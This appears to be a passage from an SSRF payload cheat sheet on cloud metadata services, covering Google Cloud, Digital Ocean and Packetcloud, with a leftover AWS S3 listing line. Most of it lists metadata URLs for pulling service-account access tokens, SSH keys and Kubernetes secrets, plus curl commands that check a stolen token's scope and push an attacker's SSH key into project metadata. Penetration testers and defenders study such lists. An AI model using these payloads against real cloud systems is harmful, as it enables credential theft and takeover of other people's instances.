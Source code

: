 Then we use the credentials with aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/.

SSRF URL for Google Cloud
Requires the header “Metadata-Flavor: Google” or “X-Google-Metadata-Request: True”

http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
Google allows recursive pulls

http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
Interesting files to pull out:

SSH Public Key : http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json
Get Access Token : http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
Kubernetes Key : http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json
Add an SSH key
Extract the token

http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
Check the scope of the token

$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  
{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
Now push the SSH key.

curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
SSRF URL for Digital Ocean
Documentation available at https://developers.digitalocean.com/documentation/metadata/

curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
All in one request:
curl http://169.254.169.254/metadata/v1.json | jq
SSRF URL for Packetcloud
Documentation available at https://metadata.packet.net/userdata
